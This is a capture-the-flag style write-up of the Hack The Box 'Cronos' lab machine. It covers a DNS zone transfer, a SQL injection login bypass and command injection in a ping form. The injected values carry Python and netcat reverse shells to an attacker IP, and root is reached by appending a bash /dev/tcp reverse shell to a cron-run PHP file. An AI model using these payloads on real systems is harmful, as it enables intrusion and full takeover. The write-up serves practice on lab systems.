


# HTB - Cronos  10.10.10.13

- Linux 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
- Ubuntu 16.04.2 LTS

- Add dns entry in /etc/host cronos.htb
- Dig dns Zone Transfert to get admin.cronos.htb
- Use sqli : admin' -- -
- Use cmd injection on ping : 8.8.8.8;xxxxx
- Cron use sbit, Find editable cron file and add reverse netcat


## Walkthrough

- https://resources.infosecinstitute.com/hack-the-box-htb-machines-walkthrough-series-cronos/#gref


## Nmap

```
# nmap -sC -sV -A  10.10.10.13 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2019-09-08 11:11 CEST
Nmap scan report for 10.10.10.13
Host is up (0.031s latency).
Not shown: 65532 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (91%), Linux 3.12 (91%), Linux 3.13 (91%), Linux 3.13 or 4.2 (91%), Linux 3.16 - 4.6 (91%), Linux 3.2 - 4.9 (91%), Linux 3.8 - 3.11 (91%), Linux 4.2 (91%), Linux 4.4 (91%), Linux 4.8 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   33.93 ms 10.10.14.1
2   34.08 ms 10.10.10.13

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 127.55 seconds

```
## 80 : http://10.10.10.13

### /etc/host

Add 10.10.10.13 cronos.htb

Then http://cronos.htb/ get a new page

### 80 : http://cronos.htb


## 53 BIND 9.10.3-P4 

No exploit, only a DOS found...

Try DNS Zone Transfert axfr
```
# dig axfr @10.10.10.13 cronos.htb

; <<>> DiG 9.11.4-P2-3-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 29 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: dim. sept. 08 11:47:44 CEST 2019
;; XFR size: 7 records (messages 1, bytes 203)
```
=> admin.cronos.htb 
=> ns1.cronos.htb => apache default
=> www.cronos.htb => cronos static

Update /etc/hosts


## 80: Nikto

### 10.10.10.13
```
# nikto -host 10.10.10.13
```
Ras

### admin.cronos.htb 


## admin.cronos.htb 



admin' -- -



ping
8.8.8.8;whoami
8.8.8.8; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.32",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


Try ?
<rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <10.10.14.32> 4445 >/tmp/f >


```
# nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.32] from cronos [10.10.10.13] 54228
/bin/sh: 0: can't access tty; job control turned off

$ cat /home/noulis/user.txt
xxxxxxxxxxxx

In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

In Kali
# stty raw -echo
# fg
Now arrows and history are ok
```

### Whoami
```
$ whoami
www-data
```

### Systeminfo
```
$ uname -a
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
$ cat /etc/issue
Ubuntu 16.04.2 LTS \n \l
```

### Sbit
```
$ find / -perm -4000 2>/dev/null | xargs ls -al
-rwsr-xr-x 1 root   root        30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root   root        40152 Dec 16  2016 /bin/mount
-rwsr-xr-x 1 root   root       142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root   root        44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root   root        44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root   root        40128 Mar 29  2016 /bin/su
-rwsr-xr-x 1 root   root        27608 Dec 16  2016 /bin/umount
-rwsr-sr-x 1 daemon daemon      51464 Jan 15  2016 /usr/bin/at
-rwsr-xr-x 1 root   root        49584 Mar 29  2016 /usr/bin/chfn
-rwsr-xr-x 1 root   root        40432 Mar 29  2016 /usr/bin/chsh
-rwsr-xr-x 1 root   root        75304 Mar 29  2016 /usr/bin/gpasswd
-rwsr-xr-x 1 root   root        32944 Mar 29  2016 /usr/bin/newgidmap
-rwsr-xr-x 1 root   root        39904 Mar 29  2016 /usr/bin/newgrp
-rwsr-xr-x 1 root   root        32944 Mar 29  2016 /usr/bin/newuidmap
-rwsr-xr-x 1 root   root        54256 Mar 29  2016 /usr/bin/passwd
-rwsr-xr-x 1 root   root        23376 Jan 18  2016 /usr/bin/pkexec
-rwsr-xr-x 1 root   root       136808 Jan 20  2017 /usr/bin/sudo
-rwsr-xr-- 1 root   messagebus  42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root   root        10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root   root       428240 Aug 11  2016 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root   root        14864 Jan 18  2016 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root   root        56456 Feb 24  2017 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root   root        38984 Mar  7  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
```

### Ps
 
```
$ 
$ 
$ ps -aux | grep root
root         1  0.0  0.5  38048  6080 ?        Ss   12:00   0:03 /sbin/init
root         2  0.0  0.0      0     0 ?        S    12:00   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        S    12:00   0:00 [ksoftirqd/0]
root         5  0.0  0.0      0     0 ?        S<   12:00   0:00 [kworker/0:0H]
root         7  0.1  0.0      0     0 ?        S    12:00   0:06 [rcu_sched]
root         8  0.0  0.0      0     0 ?        S    12:00   0:00 [rcu_bh]
root         9  0.0  0.0      0     0 ?        S    12:00   0:00 [migration/0]
root        10  0.0  0.0      0     0 ?        S    12:00   0:00 [watchdog/0]
root        11  0.0  0.0      0     0 ?        S    12:00   0:00 [watchdog/1]
root        12  0.0  0.0      0     0 ?        S    12:00   0:00 [migration/1]
root        13  0.1  0.0      0     0 ?        S    12:00   0:09 [ksoftirqd/1]
root        14  0.0  0.0      0     0 ?        S    12:00   0:00 [kworker/1:0]
root        15  0.0  0.0      0     0 ?        S<   12:00   0:00 [kworker/1:0H]
root        16  0.0  0.0      0     0 ?        S    12:00   0:00 [kdevtmpfs]
root        17  0.0  0.0      0     0 ?        S<   12:00   0:00 [netns]
root        18  0.0  0.0      0     0 ?        S<   12:00   0:00 [perf]
root        19  0.0  0.0      0     0 ?        S    12:00   0:00 [khungtaskd]
root        20  0.0  0.0      0     0 ?        S<   12:00   0:00 [writeback]
root        21  0.0  0.0      0     0 ?        SN   12:00   0:00 [ksmd]
root        22  0.0  0.0      0     0 ?        SN   12:00   0:00 [khugepaged]
root        23  0.0  0.0      0     0 ?        S<   12:00   0:00 [crypto]
root        24  0.0  0.0      0     0 ?        S<   12:00   0:00 [kintegrityd]
root        25  0.0  0.0      0     0 ?        S<   12:00   0:00 [bioset]
root        26  0.0  0.0      0     0 ?        S<   12:00   0:00 [kblockd]
root        27  0.0  0.0      0     0 ?        S<   12:00   0:00 [ata_sff]
root        28  0.0  0.0      0     0 ?        S<   12:00   0:00 [md]
root        29  0.0  0.0      0     0 ?        S<   12:00   0:00 [devfreq_wq]
root        34  0.0  0.0      0     0 ?        S    12:00   0:00 [kswapd0]
root        35  0.0  0.0      0     0 ?        S<   12:00   0:00 [vmstat]
root        36  0.0  0.0      0     0 ?        S    12:00   0:00 [fsnotify_mark]
root        37  0.0  0.0      0     0 ?        S    12:00   0:00 [ecryptfs-kthrea]
root        53  0.0  0.0      0     0 ?        S<   12:00   0:00 [kthrotld]
root        54  0.0  0.0      0     0 ?        S<   12:00   0:00 [acpi_thermal_pm]
root        55  0.0  0.0      0     0 ?        S<   12:00   0:00 [bioset]
root        56  0.0  0.0      0     0 ?        S<   12:00   0:00 [bioset]
root        57  0.0  0.0      0     0 ?        S<   12:00   0:00 [bioset]
root        58  0.0  0.0      0     0 ?        S<   12:00   0:00 [bioset]
root        59  0.0  0.0      0     0 ?        S<   12:00   0:00 [bioset]
root        60  0.0  0.0      0     0 ?        S<   12:00   0:00 [bioset]
root        61  0.0  0.0      0     0 ?        S<   12:00   0:00 [bioset]
root        62  0.0  0.0      0     0 ?        S<   12:00   0:00 [bioset]
root        63  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_0]
root        64  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_0]
root        65  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_1]
root        66  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_1]
root        72  0.0  0.0      0     0 ?        S<   12:00   0:00 [ipv6_addrconf]
root        85  0.0  0.0      0     0 ?        S<   12:00   0:00 [deferwq]
root        86  0.0  0.0      0     0 ?        S<   12:00   0:00 [charger_manager]
root       124  0.0  0.0      0     0 ?        S<   12:00   0:00 [bioset]
root       125  0.0  0.0      0     0 ?        S<   12:00   0:00 [bioset]
root       126  0.0  0.0      0     0 ?        S<   12:00   0:00 [bioset]
root       127  0.0  0.0      0     0 ?        S<   12:00   0:00 [bioset]
root       128  0.0  0.0      0     0 ?        S<   12:00   0:00 [bioset]
root       129  0.0  0.0      0     0 ?        S<   12:00   0:00 [bioset]
root       130  0.0  0.0      0     0 ?        S<   12:00   0:00 [bioset]
root       131  0.0  0.0      0     0 ?        S<   12:00   0:00 [bioset]
root       132  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_2]
root       133  0.0  0.0      0     0 ?        S<   12:00   0:00 [ttm_swap]
root       134  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_3]
root       135  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_3]
root       136  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_2]
root       137  0.0  0.0      0     0 ?        S<   12:00   0:00 [vmw_pvscsi_wq_3]
root       138  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_4]
root       139  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_4]
root       140  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_5]
root       141  0.0  0.0      0     0 ?        S<   12:00   0:00 [kpsmoused]
root       142  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_5]
root       143  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_6]
root       144  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_6]
root       145  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_7]
root       146  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_7]
root       147  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_8]
root       148  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_8]
root       150  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_9]
root       157  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_9]
root       158  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_10]
root       159  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_10]
root       161  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_11]
root       163  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_11]
root       164  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_12]
root       165  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_12]
root       166  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_13]
root       167  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_13]
root       168  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_14]
root       169  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_14]
root       170  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_15]
root       171  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_15]
root       172  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_16]
root       173  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_16]
root       174  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_17]
root       175  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_17]
root       176  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_18]
root       194  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_18]
root       197  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_19]
root       198  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_19]
root       199  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_20]
root       200  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_20]
root       201  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_21]
root       202  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_21]
root       203  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_22]
root       204  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_22]
root       205  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_23]
root       206  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_23]
root       207  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_24]
root       208  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_24]
root       209  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_25]
root       210  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_25]
root       211  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_26]
root       212  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_26]
root       213  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_27]
root       214  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_27]
root       215  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_28]
root       216  0.0  0.0      0     0 ?        S<   12:00   0:00 [bioset]
root       217  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_28]
root       218  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_29]
root       219  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_29]
root       220  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_30]
root       222  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_30]
root       223  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_31]
root       224  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_31]
root       225  0.0  0.0      0     0 ?        S    12:00   0:00 [scsi_eh_32]
root       227  0.0  0.0      0     0 ?        S<   12:00   0:00 [scsi_tmf_32]
root       271  0.0  0.0      0     0 ?        S<   12:00   0:00 [bioset]
root       277  0.0  0.0      0     0 ?        S<   12:00   0:00 [kworker/0:1H]
root       344  0.0  0.0      0     0 ?        S<   12:00   0:00 [raid5wq]
root       369  0.0  0.0      0     0 ?        S<   12:00   0:00 [kdmflush]
root       371  0.0  0.0      0     0 ?        S<   12:00   0:00 [bioset]
root       381  0.0  0.0      0     0 ?        S<   12:00   0:00 [kdmflush]
root       382  0.0  0.0      0     0 ?        S<   12:00   0:00 [bioset]
root       396  0.0  0.0      0     0 ?        S<   12:00   0:00 [bioset]
root       423  0.0  0.0      0     0 ?        S    12:00   0:00 [jbd2/dm-0-8]
root       424  0.0  0.0      0     0 ?        S<   12:00   0:00 [ext4-rsv-conver]
root       474  0.0  0.0      0     0 ?        S<   12:00   0:00 [iscsi_eh]
root       475  0.0  0.0      0     0 ?        S<   12:00   0:00 [kworker/1:1H]
root       494  0.0  0.0      0     0 ?        S<   12:00   0:00 [ib_addr]
root       496  0.0  0.2  28508  2944 ?        Ss   12:00   0:00 /lib/systemd/systemd-journald
root       505  0.0  0.0      0     0 ?        S    12:00   0:00 [kauditd]
root       517  0.0  0.0      0     0 ?        S<   12:00   0:00 [ib_mcast]
root       520  0.0  0.0      0     0 ?        S<   12:00   0:00 [ib_nl_sa_wq]
root       521  0.0  0.0      0     0 ?        S<   12:00   0:00 [ib_cm]
root       522  0.0  0.0      0     0 ?        S<   12:00   0:00 [iw_cm_wq]
root       523  0.0  0.0      0     0 ?        S<   12:00   0:00 [rdma_cm]
root       524  0.0  0.1 102968  1652 ?        Ss   12:00   0:00 /sbin/lvmetad -f
root       550  0.0  0.3  44660  3876 ?        Ss   12:00   0:01 /lib/systemd/systemd-udevd
root       626  0.0  0.0      0     0 ?        S    12:00   0:00 [kworker/1:4]
root       883  0.0  0.0      0     0 ?        S<   12:00   0:00 [ext4-rsv-conver]
root      1074  0.0  0.2  29008  2588 ?        Ss   12:00   0:00 /usr/sbin/cron -f
root      1077  0.0  0.8 185604  8964 ?        Ssl  12:00   0:02 /usr/bin/vmtoolsd
root      1083  0.0  2.1 143656 22304 ?        Ssl  12:00   0:00 /usr/lib/snapd/snapd
root      1096  0.0  0.2  20100  2796 ?        Ss   12:00   0:00 /lib/systemd/systemd-logind
root      1100  0.0  0.5 275760  5832 ?        Ssl  12:00   0:00 /usr/lib/accountsservice/accounts-daemon
root      1110  0.0  0.1   4400  1312 ?        Ss   12:00   0:00 /usr/sbin/acpid
root      1111  0.0  0.2 309488  2468 ?        Ssl  12:00   0:00 /usr/bin/lxcfs /var/lib/lxcfs/
root      1199  0.0  0.5 277180  5844 ?        Ssl  12:00   0:00 /usr/lib/policykit-1/polkitd --no-debug
root      1215  0.0  0.0  13376   144 ?        Ss   12:00   0:00 /sbin/mdadm --monitor --pid-file /run/mdadm/monitor.pid --daemonise --scan --syslog
root      1254  0.0  0.5  65520  5388 ?        Ss   12:00   0:00 /usr/sbin/sshd -D
root      1276  0.0  0.0   5224   124 ?        Ss   12:00   0:00 /sbin/iscsid
root      1277  0.0  0.3   5724  3524 ?        S<Ls 12:00   0:00 /sbin/iscsid
root      1355  0.0  0.1  15940  1612 tty1     Ss+  12:01   0:00 /sbin/agetty --noclear tty1 linux
root      1361  0.0  0.2  19620  2224 ?        Ss   12:01   0:00 /usr/sbin/irqbalance --pid=/var/run/irqbalance.pid
root      1385  0.0  2.7 325588 27916 ?        Ss   12:01   0:00 /usr/sbin/apache2 -k start
root      1616  0.0  0.0      0     0 ?        S    12:07   0:00 [kworker/0:2]
root      1785  0.0  0.0      0     0 ?        S    12:15   0:00 [kworker/0:0]
root      2493  0.0  0.0      0     0 ?        S    13:03   0:00 [kworker/u4:2]
root      2757  0.0  0.0      0     0 ?        S    13:17   0:00 [kworker/u4:0]
root      2849  0.0  0.0      0     0 ?        S    13:23   0:00 [kworker/u4:1]
www-data  2860  0.0  0.0  11284  1012 ?        S    13:24   0:00 grep root
```
Just cron, apache

### Contab

```
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
#
$ 
$ ls -al /var/www/laravel/artisan 
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
```

Let add this php line before the exit. We need to upgrade our shell to activate arrows.
```
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.32/4445 0>&1'");
```
```
tail /var/www/laravel/artisan
|
| Once Artisan has finished running. We will fire off the shutdown events
| so that any final work may be done by the application before we shut
| down the process. This is the last thing to happen to the request.
|
*/

$kernel->terminate($input, $status);
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.32/4445 0>&1'");
exit($status);
www-data@cronos:/var/www/admin$ 

```
Wait for the cron to run
```
# nc -lvp 4445
listening on [any] 4445 ...
connect to [10.10.14.32] from cronos [10.10.10.13] 33034
bash: cannot set terminal process group (3137): Inappropriate ioctl for device
bash: no job control in this shell
root@cronos:~# whoami
whoami
root
root@cronos:~# cat /root/root.txt
cat /root/root.txt
```